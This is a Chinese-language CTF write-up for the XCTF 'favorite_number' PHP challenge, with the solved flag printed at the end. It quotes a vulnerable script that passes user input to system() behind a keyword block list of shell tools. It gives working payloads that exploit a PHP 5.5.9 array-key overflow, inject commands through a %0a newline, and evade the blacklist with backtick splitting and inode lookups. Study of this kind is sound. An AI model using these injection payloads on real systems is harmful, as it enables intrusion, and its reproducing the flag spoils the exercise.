 # favorite_number

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4f9d83db-6b29-4c4c-904e-df4090ff1cf9_2)

这题个人感觉不错，同时教了萌新三个知识点，且内容也很直接，就把考点摆在那里看你会不会。

场景进去是一个php脚本。

```php
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
}
```

虽然内容不多，但是隐藏的知识可不少。system函数肯定就是我们的目标了，只是上面有整整三层过滤。一层一层看吧。

```php
if($stuff === $array && $stuff[0] != 'admin')
```

我们都知道php的==符号有很多东西可以利用，可这会直接===强等于了，要求$stuff必须完全等于$array，接下来又要求$stuff的首元素不等于admin。这两者很明显就是矛盾的。题目刻意写出了php的版本，可能是这个版本下有能用的漏洞？这里就要求经验了，想我既不用php经验也不足的完全不知道往哪里找。最后看writeup在[官网](https://bugs.php.net/bug.php?id=69892)找到了描述。

```php
var_dump([0 => 0] === [0x100000000 => 0]); // bool(true)
```

意思就是说数组的0索引所对应的元素完全相等于数组0x100000000所对应的元素。影响范围可以在[这里](https://3v4l.org/Sjdf8)找到，发现5.5.9包括在内。

0x100000000的十进制形式就是4294967296。这时我们就可以构造绕过第一个if的payload了。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1

![payload](../../images/payload.png)

- ### Tips
- > bp中可以在request的右上角的第三个按钮中的选项自动改变请求方法，比如这里就将get方法改成了要求的post方法。
- > 改变为post方法后传参是放在下面的，格式如图。

我不知道php内部是怎么判断两个数组完全相等的，但是我的猜测是这样的：一个一个判断两个数组中的键值对，如果全部返回true则完全相等。所以这里发生的情况是php判断传入的数组stuff\[4294967296]是否等于array\[0]，上面的bug可以看出结果相等，后面也相等，所以返回true；判断stuff\[0] != 'admin'也返回true，因为stuff没有0这个键，只有4294967296，故整个if语句成立。（可能不对小心被我带偏(･_･;）

```php
if (preg_match("/^\d+$/im",$num))
```

- ### 一些正则
- > ^ : 匹配搜索字符串开始的位置。如果标志中包括 m（多行搜索）字符，^ 还将匹配 \n 或 \r 后面的位置。如果将 ^ 用作括号表达式中的第一个字符，就会对字符集取反
- > \d : 数字字符匹配，等效于\[0-9]
- > $ : 匹配搜索字符串结束的位置。如果标志中包括 m（多行搜索）字符，$ 还将匹配 \n 或 \r 前面的位置。
- > \i : 大小写不敏感匹配。
- > \m : 默认情况下，PCRE 认为目标字符串是由单行字符组成的(然而实际上它可能会包含多行)， "行首"元字符 (^) 仅匹配字符串的开始位置， 而"行末"元字符 ($) 仅匹配字符串末尾， 或者最后的换行符(除非设置了 D 修饰符)。这个行为和 perl 相同。 当这个修饰符设置之后，“行首”和“行末”就会匹配目标字符串中任意换行符之前或之后，另外， 还分别匹配目标字符串的最开始和最末尾位置。这等同于 perl 的 /m 修饰符。如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 $，设置这个修饰符不产生任何影响。

/^\d+\$/im 判断$num是否全部是数字。一般来说直接\n换行绕过就行了，但是由于使用了\m，我们需要考虑别的换行符。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1%0als

%0a也是一种换行符，注意\m的描述：“如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 $，设置这个修饰符不产生任何影响。”。所以^和$仍然会只匹配字符串开头%0a前面的内容，成功绕过第二个if。

```php
if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num))
```

乍一看有点离谱，常见的用法全部黑名单了。不过你永远想不到黑客的脑洞可以有多大。最简单的一种方式是使用``绕过匹配。

- stuff[4294967296]=admin&stuff[1]=user&num=1%0aca\``t /fl``ag

也可以跟官方writeup一样用inode读取flag。ls -i /可以查看根目录下所有文件的inode值。

- stuff[4294967296]=admin&stuff[1]=user&num=1%0atac \`find / -inum 3673632`

tac是cat的反向，会把文件的行序倒着输出。比如3行的文件“1     2      3”用cat输出是“1     2      3”，用tac就是“3      2       1”，只倒转行序不倒转每一行的内容。

或者绕个弯把flag文件名分步骤追加到另一个文件里。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1%0aprintf /fla > /tmp/zer0b<br>stuff\[4294967296]=admin&stuff[1]=user&num=1%0aprintf g >> /tmp/zer0b<br>stuff\[4294967296]=admin&stuff\[1]=user&num=1%0atac \`tac /tmp/zer0b`

- ### Flag
- > cyberpeace{5baa9abc3af84774b3307ef0cbb098ab}